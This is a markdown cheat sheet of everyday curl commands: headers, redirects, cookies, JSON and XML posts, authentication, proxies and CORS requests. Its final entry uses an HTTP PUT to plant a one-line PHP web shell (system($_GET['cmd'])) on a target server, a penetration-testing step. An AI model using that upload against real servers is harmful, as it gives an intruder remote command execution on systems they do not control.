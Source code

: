 ```yaml
---
title: Curl Basics
date: {{ date }}
icon: icon-curl
background: bg-blue-400
tags:
- curl
categories:
- Linux Command
intro: A quick cheat sheet for curl
plugins:
- copyCode
---
```


Curl Basics
---------------

### Get header
```shell script {.wrap}
curl -i INSERTIPADDRESS
```
### Curl follow redirects
```shell script {.wrap}
curl -i -L INSERTIPADDRESS
```

### Ignore ssl error
```shell script {.wrap}
curl -k https://expired.badssl.com
```

### Curl with cookies
```shell script {.wrap}
curl --cookie "Name=Value" https://sample-site.com
curl -b "name1=value1; name2=value2" https://reqbin.com
```

### Curl set USER-AGENT
```shell script {.wrap}
curl https://sample-site.com -A "ReqBin Curl Client/1.0"
```

### Set timeout curl
```shell script {.wrap}
curl --connection-timeout 5 https://sample-site.com
```

### Post Json Curl
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H 'Content-Type: application/json' -d '{"login":"my_login","password":"my_password"}'
```

### Post with body curl
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d '{"productId": 123456, "quantity": 100}'
```

### Send HTTP Header curl
```shell script {.wrap}
curl https://sample-site.com/get/json -H "X-Custom-Header: value" -H "Content-Type: application/json"
```

### Basic auth curl
```shell script {.wrap}
curl https://sample-site.com -u "login:password"
```

### Post file using curl
```shell script {.wrap}
curl -d @data.json https://sample-site.com/post/json
```

### Curl through proxy
```shell script {.wrap}
curl https://sample-site.com -x myproxy.com:8080 -U login:password
```

### Curl Follow redirects
```shell script {.wrap}
curl https://www.reqbin.com/echo -L
```

### Curl with bearer token authrizaion header
```shell script {.wrap}
curl https://sample-site.com/get/json -H "Accept: application/json" -H "Authorization: Bearer {token}"
```

### Curl fetching json
```shell script {.wrap}
curl https://sample-site.com/get/json -H "Accept: application/json"
```

### Post form data with curl
```shell script {.wrap}
curl -X POST https://sample-site.com/post/form -H "Content-Type: application/x-www-form-urlencoded" -d "param1=value1&param2=value2"
```

### Set Content type curl
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H 'Content-Type: application/json' -H 'Accept: application/json' -d '{"Id": 78912, "Quantity": 1, "Price": 19.00}'
```

### Post XML with curl
```shell script {.wrap}
curl -X POST https://sample-site.com/post/xml -H "Content-Type: application/xml" -H "Accept: application/xml" -d "<Request><Login>my_login</Login><Password>my_password</Password></Request>"
```

### Curl fetch XML
```shell script {.wrap}
curl https://sample-site.com/get/xml -H "Accept: application/xml"
```

### Curl send PUT request
```shell script {.wrap}
curl -X PUT https://sample-site.com/put/json -d "PUT request data"
```

### Curl send DELETE request
```shell script {.wrap}
curl -X DELETE //reqbin.com/sample/delete/json?id=1 -H "Accept: application/json"
```

### Curl send OPTIONS request
```shell script {.wrap}
curl https://api.reqbin.com/api/v1/requests -X OPTIONS -H "Access-Control-Request-Method: POST" -H "Access-Control-Request-Headers: content-type" -H "Origin: https://reqbin.com"
```

### Curl send CORS request
```shell script {.wrap}
curl -H "Origin: https://example.reqbin.com" https://sample-site.com
```

### Curl convert to PYTHON
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to Javascript / AJAX Calls
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to PHP
```shell script {.wrap}
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to HTTP request
```shell script {.wrap}
curl https://sample-site.com/get/json -H "Content-Type: application/json" -H "Accept: application/json"
```

### Check if it is possible to upload using put
```shell script {.wrap}
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
```